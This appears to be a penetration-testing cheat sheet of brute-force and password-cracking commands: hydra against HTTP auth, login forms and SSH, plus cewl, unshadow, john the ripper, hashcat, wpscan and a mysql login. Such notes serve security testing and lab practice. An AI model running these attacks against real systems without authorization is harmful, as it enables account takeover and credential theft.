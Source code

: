 ### bruteforce (hydra, john, hashcat)
wordlist generation
```bash
cewl example.com -m 3 -w wordlist.txt
```

hydra http basic auth brute
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-head /admin/
```

hydra brute http digest
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-get /admin/
```

hydra brute http post form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed"
```

hydra brute http authenticated post form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v"
```

hydra brute
```bash
hydra -f -v -V -L users.txt -P rockyou-15.txt -s 2223 -f ssh://10.10.10.17
hydra -v -V -l admin -P rockyou-10.txt ssh://10.10.10.18
```

combine passwd with shadow file for john the ripper:
```bash
unshadow passwd shadow > crack.hash
```

john the ripper bruteforce:
```bash
john -wordlist /usr/share/wordlists/rockyou.txt crack.hash
john -wordlist /usr/share/wordlists/rockyou.txt -users users.txt test.hash
```

hashcat:
```bash
hashcat -m 1000 -a 0 -o found.txt --remove crack.hash rockyou-10.txt
```

### wpscan
```bash
wpscan --url http://10.10.10.14 --enumerate u
wpscan --url example.com -e vp --plugins-detection mixed --api-token API_TOKEN
wpscan --url example.com -e u --passwords /usr/share/wordlists/rockyou.txt
```

### mysql
```bash
mysql -h 10.10.10.23 -P 13306 -u root -p
```
